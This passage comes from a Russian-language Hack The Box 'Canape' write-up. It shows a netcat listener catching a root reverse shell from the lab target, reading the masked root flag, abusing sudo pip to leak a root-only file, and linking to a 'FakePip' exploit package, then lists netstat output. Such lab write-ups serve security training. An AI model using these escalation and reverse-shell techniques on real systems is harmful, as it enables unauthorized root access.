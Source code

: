 ```text
root@kali:~# nc -nlvvp 1337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.70.
Ncat: Connection from 10.10.10.70:52838.

root@canape:/tmp/pip-4x53u7-build# cd

root@canape:~# whoami
whoami
root

root@canape:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```text
root@canape:~# cat /root/root.txt
cat /root/root.txt
928c3df1????????????????????????
```

3\. Можно подурачиться:
```text
homer@canape:~$ sudo -H /usr/bin/pip install -r /root/root.txt
Collecting 928c3df1???????????????????????? (from -r /root/root.txt (line 1))
```

4\. И наконец, можно воспользоваться [готовым решением](https://github.com/0x00-0x00/FakePip "0x00-0x00/FakePip: Pip install exploit package"), если лень возиться самому (самый скучный вариант, имхо).

And that's it :triumph:

# Разное
## netstat as root
Посмотрим на сетевые подключения от суперпользователя:
```text
root@canape:~# netstat -anlpo | grep LIST
tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      920/sshd         off (0.00/0/0)
tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      642/beam         off (0.00/0/0)
tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      642/beam         off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1055/apache2     off (0.00/0/0)
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      678/epmd         off (0.00/0/0)
tcp        0      0 0.0.0.0:39637           0.0.0.0:*               LISTEN      642/beam         off (0.00/0/0)
tcp6       0      0 :::65535                :::*                    LISTEN      920/sshd         off (0.00/0/0)
tcp6       0      0 :::4369                 :::*                    LISTEN      678/epmd         off (0.00/0/0)
unix  2      [ ACC ]     STREAM     LISTENING     10709    1/init              /run/systemd/fsck.progress
unix  2      [ ACC ]     STREAM     LISTENING     21681    1386/systemd        /run/user/1000/systemd/private
unix  2      [ ACC ]     SEQPACKET  LISTENING     10718    1/init              /run/udev/control
```